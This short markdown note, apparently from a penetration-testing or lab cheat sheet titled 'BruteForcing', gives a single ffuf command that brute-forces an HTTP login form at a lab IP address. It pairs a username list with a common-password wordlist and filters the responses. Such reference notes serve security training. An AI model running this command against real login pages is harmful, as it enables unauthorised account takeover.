 ```yaml
---
  title: "BruteForcing"
---
```

# HTTP Login page
#### ffuf
`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d` `"username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.93.83/customers/login -fc 200`
